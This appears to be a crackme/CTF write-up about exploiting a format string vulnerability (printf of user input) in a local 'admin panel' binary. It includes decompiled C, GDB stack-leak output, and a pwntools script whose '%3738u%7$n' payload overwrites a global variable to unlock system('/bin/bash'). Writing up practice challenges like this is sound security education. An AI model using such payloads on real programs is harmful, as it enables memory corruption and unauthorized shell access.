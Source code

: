 # Admin Panel

This challenge is a bit different from the regular crackmes. This challenge is essentially just a binary exploitation challenge, in this challenge we are tasked to exploit a format string vulnerability in the program to overwrite the value of a specific variable. After arbitrarily writing to the variable the program should make a call to system with the argument being `/bin/bash` Giving us a shell.

## Code Analysis - Reversing

```c

int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest[16]; // [rsp+10h] [rbp-120h] BYREF
  char s[264]; // [rsp+20h] [rbp-110h] BYREF
  unsigned __int64 canary; // [rsp+128h] [rbp-8h]

  canary = __readfsqword(0x28u);
  strcpy(dest, (const char *)&admin);
  puts("Welcome to the admin panel! The program which admins can\ninteract with on a guest computer to do admin stuff!\n");
  while ( 1 )
  {
    if ( admin != 3738 )
      puts("status: (admin=false; shell=unavailable)\n");
    if ( admin == 3738 )
      puts("status: (admin=true; shell=available)\n");
    printf("*> ");
    if ( !fgets(s, 256, stdin) )
      break;
    strtok(s, "\n");
    if ( !strcmp(s, "shell") && admin == 3738 )
    {
      system("/bin/bash");
    }
    else
    {
      printf("input: ");
      printf(s);
      puts("\n");
    }
  }
  return 0;

```

Here we can see that if the global variable `admin` equals `3738` and our input equals `shell` We pass all the checks and get a shell, pretty straight forward.

## Vulnerability Discovery

At first this looks impossible because we don't have any control over the `admin` variable, how can we make it equal to some value? If we carefully examine the code we can quickly see that there is a format string vulnerability present in the code `printf(s);` We control the `s` variable and therefore we can leak values of the stack and most importantly write arbritrary values to memory with the `%n` specifier.

# Exploitation

Now that we have an exploit strategy in mind we can go experiment with GDB. Let's fire up the binary in GDB and try to leak some stack addresses, when the program prompts for an input we give it a C format specifier for example: `%p`. This tells printf to print the address (pointer) to a value/variable on the stack.

```
Welcome to the admin panel! The program which admins can
interact with on a guest computer to do admin stuff!

status: (admin=false; shell=unavailable)

*> %p%p%p%p%p%p%p%p
input: 0x75706e69(nil)(nil)0x5555555560d00x7(nil)0x55555555807c(nil)

status: (admin=false; shell=unavailable)
```

This is exactly what we were expecting to see. Let's inspect some of these addresses to see where they point to

```
gef➤  x/x 0x75706e69
0x75706e69:	Cannot access memory at address 0x75706e69
gef➤  x/x 0x5555555560d00x7
Invalid number "0x5555555560d00x7".
gef➤  x/x 0x55555555807c
0x55555555807c <admin>:	0x00000000
gef➤  
```
Here we see that the address `0x55555555807c` is our `admin` variable. Now we have all the pieces to the puzzle and we can start building out our exploit, we know that the admin variable needs to be equal to the value `3738` and then our input has to be `shell` to get the program to call `system('/bin/bash')'. Let's use the format string vulnerability to write our desired value to memory.

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.os = 'linux'

p = process('./admin_panel')
p.sendline(b"%3738u%7$n")
p.sendline(b"shell")
p.interactive()
```

- %3738u = our desired value as an unsigned int (u)
- %7$n = Write our value at the 7th position in memory (the 7th address is the admin variable)
